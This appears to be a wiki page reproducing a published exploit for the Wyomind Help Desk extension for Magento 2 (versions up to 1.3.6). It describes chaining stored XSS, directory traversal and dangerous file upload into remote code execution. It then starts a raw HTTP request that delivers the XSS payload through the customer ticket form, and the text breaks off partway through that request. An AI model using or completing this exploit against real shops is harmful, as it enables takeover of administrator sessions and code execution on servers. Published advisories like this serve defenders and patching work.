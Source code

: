 <languages /> <translate>

漏洞影響
--------

</translate> Version: \<= 1.3.6

EXP
---

    # Exploit Title: Wyomind Help Desk 1.3.6 - Remote Code Execution (RCE)
    # Date: 2021-07-07
    # Exploit Author: Patrik Lantz
    # Vendor Homepage: https://www.wyomind.com/magento2/helpdesk-magento-2.html
    # Version: <= 1.3.6
    # Tested on: Ubuntu 18.04-20.04, Apache, PHP 7.2, Magento 2


    The Mangento 2 Help Desk extension from Wyomind up to and including version 1.3.6 is vunerable to stored XSS, directory traversal and  unrestricted upload of a dangerous file type. These vulnerabilites combined could lead to code execution.

    A XSS payload can be sent via the ticket message from the front-end in the 'Support - My tickets' section.
    The payload is triggered when an administrator views the ticket in the Magento 2 backend. The following request enable
    the delivery of the XSS payload:

    POST /helpdesk/customer/ticket_save/ HTTP/1.1
    Host: <redacted>
    Content-Type: multipart/form-data; boundary=---------------------------243970849510445067673127196635
    Content-Length: 683
    Origin: https://<redacted>
    Connection: close
    Referer: https://<redacted>/helpdesk/customer/ticket_view/
    Cookie: <redacted>
    Upgrade-Insecure-Requests: 1

    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="form_key"

    <redacted>
    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="object"
